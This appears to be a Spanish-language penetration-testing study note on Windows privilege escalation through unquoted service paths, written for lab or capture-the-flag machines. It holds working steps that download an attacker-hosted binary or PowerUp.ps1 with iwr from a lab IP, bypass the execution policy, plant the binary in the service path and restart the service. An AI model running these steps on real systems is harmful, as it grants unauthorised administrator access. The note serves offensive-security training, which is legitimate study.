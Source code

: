 
## DESCRIPTION

Se basa en encontrar un servicio ejecutado por administrador que se encuentra en una ubicación en la que tenemos permisos para escribir y que no tiene comillas:
![[Pasted image 20230523181427.png]]

#### Mas información
* https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).


## EXPLOITATION

### OPTION 1: MANUAL

1. Buscamos un servicio vulnerable, winpeas tambien sirve:
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
```

2. Comprobamos que podemos parar/arrancar ese ervicio y que se encuentra en una ruta sin comillas:
![[Pasted image 20230523181644.png]]

3. Comprobamos los permisos(vemos que tiene scritura en uno de ellos)
![[Pasted image 20230523181709.png]]

4. Creamos un ejecutable y lo trasferiamos a la maquina con el mismo nombre que el de la ruta con espacio, en este caso Current.exe

```
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe

copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

5. Reseteamos el servicio:

```
Start-Service GammaService
```

### OPTION 2: USING POWERUP

1. Subimos powerup a la maquina vicitma
```
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```

2. Ejecutamos
```
powershell -ep bypass

. .\PowerUp.ps1

Get-UnquotedService

OPCION 1: Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

# Tambien podemos copiarlo directamente, por ejemplo:

OPCION 2: copy Surveillance.exe "C:\Enterprise Software\Monitoring Solution\Surveillance.exe"


# Reseteamos el servivio y bingo
Restart-Service ReynhSurveillance

```

![[Pasted image 20230523185305.png]]

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 
